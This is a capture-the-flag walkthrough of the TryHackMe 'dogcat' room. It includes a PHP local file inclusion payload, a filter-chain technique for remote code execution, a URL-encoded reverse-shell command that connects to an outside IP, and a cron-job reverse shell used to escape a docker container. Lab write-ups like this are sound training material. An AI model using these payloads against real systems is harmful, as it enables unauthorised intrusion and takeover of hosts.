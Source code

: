 # dogcat

https://tryhackme.com/room/dogcat

## Scan

We discover 2 ports (ssh and http)

![image](https://github.com/Roqlane/writeups/assets/78229498/0706358e-69c6-4d42-a1a3-a10ea209d386)

## Website

![image](https://github.com/Roqlane/writeups/assets/78229498/06bd7de1-dbd0-4c61-abeb-57df39a69a12)

So this is a site where you can see pictures of dogs and cats. Pretty nice! I am thinking of just looking at them instead of completing the chall XD

Hmmmm interesting result, seems like we got an lfi.

![image](https://github.com/Roqlane/writeups/assets/78229498/4673de48-4870-42c0-ad2e-173105a7a334)

This LFI is pretty tricky, I think the code behind it is like so:

`include ($file . ".php")`

To get the first flag, I first needed to perform an enum using gobuster:

`gobuster dir -u "http://10.10.242.241" -w /usr/share/seclists/Discovery/Web-Content/common.txt -x .php, .txt`

Then I discovered that there is a flag.php file. I tried to access it but it didn't print out any results. So we need a way to get its content. For that I use a payload from that article https://github.com/qazbnm456/awesome-security-trivia/blob/master/Tricky-ways-to-exploit-PHP-Local-File-Inclusion.md.

Put it on practice: 

`http://10.10.17.47/?view=php://filter/convert.base64-encode/resource=cats/../../../../var/www/html/flag`

Got a base64 response so I used cyberchef to decode it

![image](https://github.com/Roqlane/writeups/assets/78229498/41946361-1ec4-4313-8a4a-9c80952ac182)

## Web shell

Now we have to use another wrapper to execute shell commands. After some search, I found that I could use the filter wrapper (thx to this site: https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams) and this python script to make the exploit https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

![image](https://github.com/Roqlane/writeups/assets/78229498/9363c59d-214b-4d65-8fda-b02944433f4e)

I put the result in the FILTERS variable

![image](https://github.com/Roqlane/writeups/assets/78229498/029728ae-1bef-4cd0-8828-0363ed980874)

Execute `ls%20..%2F` on the cmd param and you found out that there is the second flag

![image](https://github.com/Roqlane/writeups/assets/78229498/bc106a42-7a8e-4b8a-af42-a2b526eda277)

![image](https://github.com/Roqlane/writeups/assets/78229498/1ce01b76-9738-4661-b1d3-e9dc2d061995)

## Reverse shell

`curl "http://10.10.17.47/?view=php://filter/$FILTERS/resource=cat&cmd=php%20-r%20'%24sock%3Dfsockopen(%2210.9.164.243%22%2C6969)%3Bexec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'" --output result`

![image](https://github.com/Roqlane/writeups/assets/78229498/2fe4aa6a-e835-4bd8-aedd-88a0c4fc328e)

## privesc

Well...

![image](https://github.com/Roqlane/writeups/assets/78229498/a4c4198b-a6e0-4ab8-921a-b20e20f2ccca)

Or

![image](https://github.com/Roqlane/writeups/assets/78229498/8a6244f8-36b7-42ef-b848-36f04b8dd329)

![image](https://github.com/Roqlane/writeups/assets/78229498/b8083628-f747-46d3-841c-574ed560bbd6)

If I remember well, we are in a docker container, let's use this: https://github.com/stealthcopter/deepce

![image](https://github.com/Roqlane/writeups/assets/78229498/eeec3090-f522-474c-a816-29f5d9ca38c3)

![image](https://github.com/Roqlane/writeups/assets/78229498/38aba1ee-a112-4557-bf46-3ad68b5986e4)

![image](https://github.com/Roqlane/writeups/assets/78229498/a46bb9aa-97e2-4d04-8069-d0f6925e9a3a)


Well I passed a lot of time searching for docker escape, only to find out that the backup.sh file is executed as a cron job......
That surely means that the host is executing the file, so if we add a reverse shell to the file, we could access the host system.

![image](https://github.com/Roqlane/writeups/assets/78229498/7776b43b-65c8-4228-94bb-c54753145cad)

![image](https://github.com/Roqlane/writeups/assets/78229498/ff121d3e-86d4-49a5-842d-811c2ce13ac8)

I searched for a docker escape, I guess a cron job works too XD. 
